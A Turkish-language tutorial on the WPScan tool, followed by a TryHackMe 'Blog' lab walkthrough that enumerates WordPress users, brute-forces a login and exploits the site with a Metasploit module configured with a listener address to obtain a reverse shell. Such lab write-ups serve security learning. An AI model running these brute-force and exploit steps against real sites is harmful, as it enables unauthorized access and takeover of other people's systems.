









# Wpscan

<figure><figcaption></figcaption></figure>

Wpscan açık kaynak kodlu geliştirilmiş ve terminalde çalıştırılan bir araçtır. WordPress kullanan sitelerde tarama yapmak için kullanılır.

WordPress siteleri hakkında temel bilgileri ve varsa güvenlik zafiyetleri hakkında bilgi verir. Kali Lİnux üzerinde yüklü olarak gelir.&#x20;

Biraz Wpscan aracının yapabildiklerinden bahsedelim:

* Tema taraması
* Eklenti taraması
* Brute Force
* Dizin taraması vb.

Eğer başka bir dağıtım kullanıyorsanız aşşağıdaki kod ile Wpscan aracınızı indirebilirsiniz.

```
gem install wpscan
```

Aracımızın sahip olduğu parametreleri görmek için şu komutu kullanıyoruz:

```
wpscan -h
```

<figure><figcaption></figcaption></figure>

Bir web sitesi üzerinde tarama gerçekleştireceğimiz için bir url parametresine ihtiyacımız var. `--url` parametresiyle test edeceğimiz web sitesini parametre olarak veriyoruz.

Ayrıca aracın hangi türde bir tarama yapacağından bahsetmemiz lazım bunun içinde `--enumerate` parametresini kullanıyoruz.

\--enumerate parametresiyle seçenekler vermemiz lazım:

* t : Popüler temaları tarar
* vt : Zafiyetli temaları tarar
* p : Popüler eklentileri tarar
* vp : Zafiyetli eklentileri tarar
* ap : Bütün eklentileri tarar

Verilen --url parametresine göre popüler temaları tarar:

```
wpscan --url <ip/url> --enumerate t
```

\-vt parametresiyle zafiyetli temaları tarar:

```
wpscan --url <ip/url> --enumerate vt
```

\-p parametresiyle popüler eklentileri tarar:

```
wpscan --url <ip/url> --enumerate p
```

\-vp parametresiyle zafiyetli eklentileri tarar:

```
wpscan --url <ip/url> --enumerate vp
```

\-at parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate at
```

\-ap parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate ap
```

Wpscan aracımızı daha iyi tanımak ve kullanabilmek için [Try Hack Me Blog](https://tryhackme.com/r/room/blog) odasında kullanacağım. Öncelikle web sitemizi çalıştırıyoruz. Öncelikle Try Hack Me tarafından bana verilen Ip adresini /etc/hosts altındaki dosyaya ekliyorum.

<figure><figcaption></figcaption></figure>

Sonrasında tarayıcımdan blog.thm adresine gidiyorum. Ve sitede gezinirken en alt tarafta sitenin WordPress ile geliştirildiğine dair bir yazı yer alıyor.

<figure><figcaption></figcaption></figure>

Wpscan aracımız ile site üzerinde tarama yapabiliriz. Öncelikle zafiyetli eklentiler için bir tarama yapalım bunun için şu komutu yazıyoruz:

```
wpscan --url blog.thm --enumerate vp
```

Bu sorgunun sonucu olarak yararlı bir şey çıkmıyor. Var olan kullanıcıları listeleyeim ve sonrasında brute force deneyelim.&#x20;

```
wpscan --url blog.thm --enumerate u
```

Bu işlemden sonra karşımıza şöyle bir sonuç çıkıyor.

<figure><figcaption></figcaption></figure>

2 tane kullanıcımız var Karen Wheeler ve Bill Joel. Bunların kullanıcı adları sırasıyla kwhell ve bjoel. Kullanıcı adlarını bulduğumuza göre login ekranına brute force deneyelim. Öncelikle kwhell kullanıcısı için bir komut yazacağım. Eğer şifreyi bulamazsak bjoel kullanıcısı içinde bir komut yazacağım.&#x20;

```
wpscan --url blog.thm --usernames kwheel --passwords <sifre.txt>
```

Bu işlem sonucunda geçerli bir şifre elde ediyoruz.

<figure><figcaption></figcaption></figure>

`kwheel - cutiepie1` bu bilgiler ile giriş yapalım ve bakalım sonrasında neler yapabiliyoruz.&#x20;

<figure><figcaption></figcaption></figure>

Giriş yaptıktan sonra karşımıza ektra bir şey çıkmıyor. Web sitesi özelinde temel işle yapabiliyoruz. Bizim sunucuda olan dosyalarla işimiz var. WordPress'in eski sürümlerinde zafiyet olabilir ve biz bu zafiyeti kullanabiliriz. Zafiyetleri görmek için yukarıda yaptığımız `wpscan --url blog.thm --enumerate vp` komutundan biraz daha farklı bir şey yazacağız. Yukarıdaki gibi bir komut yazarsak Wpscan bize zafiyetleri göstermiyor.&#x20;

Bize zafiyetleri göstermesini istiyorsak [Wpscan](https://wpscan.com/profile/) adresinden bize sağlanan token değerini parametre olarak vermemiz gerekiyor.&#x20;

```
wpscan --url blog.thm --enumerate vp --api-token <token>
```

Bu kod sonrasında sistemden şöyle bir çıktı almamız sağlar.&#x20;

<figure><figcaption></figcaption></figure>

Çıktı olarak 70 tane zafiyetin olduğunu gösteriyor. WordPress sürümünü de öğrendikten sonra msfconsole üzerinden zafiyet araması yapabiliriz.

<figure><figcaption></figcaption></figure>

Karşımızı bu sonuçlar çıkıyor. `use 0` diyerek payloadımı seçiyorum. Sonrasında payloadın bize sunduğu ayarları görmek için `show options` diyorum.&#x20;

<figure><figcaption></figcaption></figure>

Sırasıyla şu ayarlamaları yapıyorum.&#x20;

<pre><code>set PASSWORD cutiepie1
<strong>set RHOSTS 10.10.154.220 // THM odasının çalıştığı IP adresini veriyoruz
</strong>set USERNAME kwheel
set LHOST 10.6.63.226  // THM odasına bağlandığımız IP adresi
run
</code></pre>

Run komutuyla birlikte exploitimiz çalışmaya başlıyor. Buradaki amacımız var olan bir zafiyeti sömürerek shell almaya çalışıyoruz.

<figure><figcaption></figcaption></figure>

Ve evet shell aldık, sistem üzerinde komutlar çalıştırabiliyoruz.&#x20;
